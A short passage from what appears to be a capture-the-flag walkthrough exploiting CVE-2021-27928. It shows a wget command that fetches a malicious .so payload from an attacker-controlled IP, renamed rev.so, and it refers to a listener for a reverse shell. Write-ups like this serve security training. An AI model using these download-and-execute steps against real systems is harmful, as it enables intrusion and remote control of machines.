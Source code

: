 exit the DB to go back on the shell ->

```
wget http://10.10.14.166:8989/CVE-2021-27928.so
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>i changed the name of the exploit to rev.so</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and if you set up your listener earlier ->
